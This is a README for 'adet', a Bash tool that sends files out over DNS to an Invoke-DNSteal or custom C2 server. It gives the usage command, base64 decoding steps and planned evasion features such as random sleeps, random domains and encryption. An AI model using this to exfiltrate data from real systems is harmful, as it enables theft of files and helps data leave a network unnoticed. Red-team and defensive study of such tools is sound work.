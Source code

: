# adet: Another DNS Exfiltration Tool
Bash script for sending file to Invoke-DNSteal server

# Instructions:
1. Run [Invoke-DNSteal.py](https://github.com/JoelGMSec/Invoke-DNSteal ) in your DNS server
2. Use:
```
./adet.sh <file> <domain>
```
3. Decode the received file in base64
```
base64 -d <received_file>
```

Example: Sending [byp4xx.py](https://github.com/lobuhi/byp4xx/blob/main/byp4xx.py) to my own customized C2/DNS server 
![](dnsteal.jpg =250x)

# TO-DO:
 - Add random sleep option
 - Add random domain when DNS server is specified
 - Add byte length option
 - Add TCP option
 - Add encryption? Why not?
